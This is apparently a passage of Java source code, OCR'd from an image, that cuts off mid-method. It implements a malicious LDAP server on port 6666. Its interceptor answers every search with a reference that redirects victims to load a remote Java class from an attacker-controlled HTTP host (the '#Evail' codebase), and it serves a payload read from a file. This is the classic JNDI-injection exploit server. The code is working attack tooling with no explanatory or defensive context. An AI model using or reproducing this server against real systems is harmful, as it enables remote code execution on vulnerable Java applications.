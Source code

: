 ```plain
        }

        String ip = tmp_args[0];
        String[] args = new String[]{"http://" + ip +"/#Evail"};
        String payload = "";
        File file = new File(tmp_args[1]);
        try {
            payload = FileUtils.readFileToString(file);
            System.out.println(payload);
        } catch (IOException e) {
            e.printStackTrace();
        }

        int port = 6666;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ]), payload));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        private String payload;

        public OperationInterceptor ( URL cb , String payload) {
            this.codebase = cb;
            this.payload = payload;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e, payload);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult (InMemoryInterceptedSearchResult result, String base, Entry e , String payload) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
```